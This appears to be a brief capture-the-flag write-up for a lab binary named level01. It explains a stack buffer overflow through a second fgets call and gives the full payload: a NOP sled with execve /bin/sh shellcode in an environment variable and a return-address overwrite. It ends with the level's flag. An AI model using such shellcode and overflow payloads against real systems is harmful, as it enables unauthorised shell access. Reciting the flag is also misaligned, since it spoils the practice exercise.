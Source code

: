 # Level1
The only problem here is that the program waits 2 fgets on stin, so we have to send a sentence with a "\n" to cut the reading of the 1 fgets.
Then we just have to overflow the buffer on the 2 fgets with the address of a shellcode.

The payload is :
```
export SHELLCODE=`python -c 'print("\x90" * 0xffff + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
cat <(python -c 'print("dat_wil" + "\n" + "a" * 0x50 + "\x01\x01\xff\xff")') - | ./level01
```
Flag is **PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv**
